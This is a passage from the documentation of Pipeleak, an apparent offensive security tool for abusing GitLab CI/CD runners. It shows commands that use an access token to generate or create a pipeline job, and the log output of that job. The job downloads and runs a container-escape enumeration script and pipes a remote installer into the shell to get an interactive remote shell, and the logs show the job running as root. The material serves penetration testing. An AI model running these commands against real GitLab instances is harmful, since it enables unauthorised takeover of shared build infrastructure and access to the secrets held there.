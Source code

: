 Review the runners and select the interesting ones. The Gitlab Ci/CD config file allows you to select runners by their tags. Thus we create a list of the most interesting tags, printed by the command above.

Pipeleak can generate a `.gitlab-ci.yml` or directly create a project and launch the jobs.

```bash
# Manual creation
$ pipeleak runners --token glpat-[redacted] --gitlab https://gitlab.com -v exploit --tags saas-linux-small-amd64 --shell --dry
2024-09-26T14:32:26+02:00 DBG Verbose log output enabled
2024-09-26T14:32:26+02:00 INF Generated .gitlab-ci.yml
2024-09-26T14:32:26+02:00 INF ---
stages:
    - exploit
pipleak-job-saas-linux-small-amd64:
    stage: exploit
    image: ubuntu:latest
    before_script:
        - apt update && apt install curl -y
    script:
        - echo "Pipeleak exploit job"
        - id
        - whoami
        - curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
        - chmod +x deepce.sh
        - ./deepce.sh
        - curl -sSf https://sshx.io/get | sh -s run
    tags:
        - saas-linux-small-amd64

2024-09-26T14:32:26+02:00 INF Create you project and .gitlab-ci.yml manually
2024-09-26T14:32:26+02:00 INF Done, Bye Bye 🏳️‍🌈🔥

# Automated
$ pipeleak runners --token glpat-[removed]  --gitlab https://gitlab.com -v exploit --tags saas-linux-small-amd64 --shell 
2024-09-26T14:33:48+02:00 DBG Verbose log output enabled
2024-09-26T14:33:49+02:00 INF Created project name=pipeleak-runner-exploit url=https://gitlab.com/[removed]/pipeleak-runner-exploit
2024-09-26T14:33:50+02:00 INF Created .gitlab-ci.yml file=.gitlab-ci.yml
2024-09-26T14:33:50+02:00 INF Check pipeline logs manually url=https://gitlab.com/[removed]/pipeleak-runner-exploit/-/pipelines
2024-09-26T14:33:50+02:00 INF Make sure to delete the project when done
2024-09-26T14:33:50+02:00 INF Done, Bye Bye 🏳️‍🌈🔥
```

If you check the log output you can see the outputs of the commands defined in `script` and an [sshx](https://sshx.io/) Url which gives you an interactive shell in your runner.

```bash
$ echo "Pipeleak exploit job"
Pipeleak exploit job
$ id
uid=0(root) gid=0(root) groups=0(root)
$ whoami
root
$ curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
$ chmod +x deepce.sh
$ ./deepce.sh

==========================================( Colors )==========================================
[+] Exploit Test ............ Exploitable - Check this out
[+] Basic Test .............. Positive Result
[+] Another Test ............ Error running check
[+] Negative Test ........... No
```
